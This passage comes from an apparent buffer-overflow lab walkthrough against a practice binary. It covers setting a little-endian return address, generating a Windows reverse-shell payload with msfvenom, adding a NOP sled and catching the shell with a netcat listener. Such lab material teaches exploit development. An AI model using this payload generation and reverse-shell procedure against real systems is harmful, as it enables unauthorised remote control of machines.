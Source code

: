 Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit. 

## Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00): 

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c `

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

## Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!


## Practical

----

First, we need to run `Immunity Debugger` as admin:
